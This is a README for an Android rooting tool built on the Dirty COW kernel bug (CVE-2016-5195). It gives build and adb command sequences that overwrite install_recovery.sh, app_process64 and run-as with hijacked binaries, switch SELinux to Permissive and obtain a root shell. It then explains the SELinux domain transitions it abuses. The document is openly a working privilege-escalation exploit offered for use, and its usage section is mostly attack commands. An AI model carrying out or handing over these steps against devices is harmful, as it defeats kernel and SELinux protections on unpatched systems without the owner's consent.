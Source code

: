 # CVE-2016-5195
CVE-2016-5195 (dirty cow/dirtycow/dirtyc0w) proof of concept for Android

## Rootter, an exploit tool to root "secure" systems with **unlocked** bootloaders
## Based off of Jcadduono's recowvery project

## Usage:

### Building:
```sh
lunch your_device-eng

make -j5 dirtycow recowvery-applypatch recowvery-app_process64 recowvery-run-as
```

### Running:
```sh
adb push dirtycow /data/local/tmp
adb push root-app_process64 /data/local/tmp
adb push root-run-as /data/local/tmp
adb push install_recovery.sh /data/local/tmp

adb shell

$ cd /data/local/tmp
$ chmod 0777 *
$ ./dirtycow /system/bin/install_recovery.sh install_recovery.sh
$ ./dirtycow /system/bin/app_process64 root-app_process64
"<wait for completion, your phone will look like it's crashing>"
$ exit

adb shell reboot recovery
"<wait for phone to boot up again, your recovery will be reflashed to stock>"

adb shell

$ getenforce
"<it should say Permissive, adjust source and build for your device!>"

$ cd /data/local/tmp
$ ./dirtycow /system/bin/run-as recowvery-run-as

$ run-as su
#
"<play around in your somewhat limited root shell full of possibilities>"
```

## How it works:

dirtycow manages to exploit an old bug in the copy-on-write code of the Linux kernel which can trick the system into running a different ELF executable in another "priveleged" executable's place.  
Don't quote me on that, I haven't researched it any more than I needed to.  

The `install_recovery.sh` script is a shell script which is run by init in the `u:r:install_recovery:s0` selinux domain.  
While this script is intended for replacing the recovery partition image with the OEM original (based on diff of boot partition) if it is damaged, we can abuse it to install our own recovery images.  

The `u:r:install_recovery:s0` is the only context in Android that is able to read and write to the recovery partition. It has access to only a few other items, however.  
It can run binaries in `/system/bin` under its context with limited permissions. (ex. `setenforce` for disabling/enabling selinux, and `sh` for running the `install_recovery.sh` shell script)  

We can't start the install\_recovery service ourselves, it needs to be run by init's service control. The `u:r:system_server:s0` context is capable of starting init services, so that's where root-app_process64 comes in handy.  
`/system/bin/app_process64` is a zygote executable. It brings up the Android framework and maintains it during system use.  

The `u:r:zygote:s0` context that app\_process64 starts in has permissions to transition to the `u:r:system_server:s0` context for when it brings up the system server.  
We can abuse that privelege by hijacking app\_process64 (which is run as root) with dirtycow and then transition to `u:r:system_server:s0` ourselves to start the install\_recovery service as root in the `u:r:install_recovery:s0` domain.  

We can now use dirtycow to replace the `/system/bin/run-as` execution with our own that is perfectly happy to elevate any command to root, as well as start a root shell for you.  
 
You should now be able to start your system in SELinux Permissive mode on every reboot, allowing you to use dirtycow and `run-as` to gain root access (in a shell) whenever you'd like.  

Hope you enjoyed the read, and have fun exploiting!
